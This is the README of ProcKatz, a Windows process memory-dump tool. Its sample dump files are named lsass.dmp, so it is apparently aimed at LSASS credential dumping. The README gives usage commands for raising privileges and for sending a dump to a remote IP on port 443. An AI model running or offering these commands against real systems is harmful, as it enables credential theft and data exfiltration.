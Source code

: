 # ProcKatz

## Overview
This tool provides the functionality to create memory dumps of processes on Windows systems. It can handle privileged processes by setting `SeDebugPrivilege`, supports snapshot creation for non-invasive dumping, and can send dumps over the network.

## Features
- **Elevate Privileges**: Gain `SeDebugPrivilege` to handle privileged processes.
- **Network Transmission**: Send process dumps to a specified IP and port.
- **Snapshot Creation**: Create a snapshot of the process for a non-intrusive dump.
- **Support for both PID and Process Name**: Specify the target for dumping either by PID or process name.


## Usage
- `-h, --help`: Show help message and exits.
- `-v, --version`: Print version information and exits.
- `--pid`: Specify the Process ID to dump. [nargs=0..1] [default: 0]
- `--procname`: Specify the name of the process. [nargs=0..1] [default: ""]
- `--dmp`: Specify the file name to dump the process. [nargs=0..1] [default: ""]
- `--ip`: Specify the IP address to send the dump. [nargs=0..1] [default: ""]
- `--port`: Specify the port to send the dump. [nargs=0..1] [default: ""]
- `--elevate`: Set SeDebugPrivilege to dump privileged processes. [OPTIONAL]
- `--snapshot`: Creates a snapshot of the process before dumping it. [OPTIONAL]

## Examples

### Dumping a Process by PID
prockatz.exe --pid 1000 --dmp lsass.dmp

### Dumping a Process by Name
program_name --procname "example.exe" --dmp "lsass.dmp"

### Dumping a Process by PID with Elevated Privileges
prockatz.exe --pid 1000 --dmp lsass.dmp --elevate


### Sending a Dump Over the Network
prockatz.exe --pid 1000 --ip 192.168.0.105 --port 443 --elevate



### Creating a Snapshot and Dumping
prockatz.exe --pid 1000 --dmp lsass.dmp --elevate --snapshot


## Acknowledgments
- **Argparse Library**: This tool uses the `argparse` library by Ranav for parsing command line arguments. More information can be found at [argparse on GitHub](http://github.com/p-ranav/argparse).


